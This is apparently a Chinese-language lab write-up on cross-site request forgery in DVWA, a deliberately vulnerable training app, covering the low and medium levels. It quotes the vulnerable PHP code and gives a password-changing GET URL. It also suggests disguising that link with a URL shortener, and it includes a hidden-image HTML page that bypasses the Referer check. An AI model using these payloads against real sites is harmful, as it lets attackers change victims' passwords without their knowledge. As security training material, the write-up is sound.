 ```yaml
---
title: CSRF
date: 2019-3-19
tags: DVWA

---
```


- CSRF，全称Cross-site request forgery，就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），引导诱骗用户点击存在恶意代码的页面，在受害人不知情的情况下利用受害者的身份向服务器发送请求，从而完成非法操作。

- CSRF产生的本质原因：HTTP是无状态协议。前后两个请求无法相互标识，保持状态，各个请求之间是相互独立的。

**1. low 没有任何防御措施，可以直接进行攻击**

```
 if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match? 
```
_从源代码可以看出，只检查了是否是GET请求_

**攻击方法：直接链接访问即可修改密码**

`http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=admin1&password_conf=admin1&Change=Change#`

**如果觉得这样太明显可以百度`短链接生成器` ，从而将这个链接做成一个看不出意图的短链接**

**2. medium**
```
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match? 
```
_从源代码可以看出检查了保留变量 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否含有SERVER-NAME（本地是127.0.0.1）
_

**攻击方法:绕过referer.通过burp测试出refere检查的是必须要来自127.0.0.1。所以构造这样一个html文件，放在和dvwa同一个服务器下，再诱使用户访问即可。**

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=1234567&password_conf=1234567&Change=Change#" border="0" style="display:none;"/>
<h1>Hello<h1>
<h2>Your password has been changed.<h2>
</body>
</html>
```
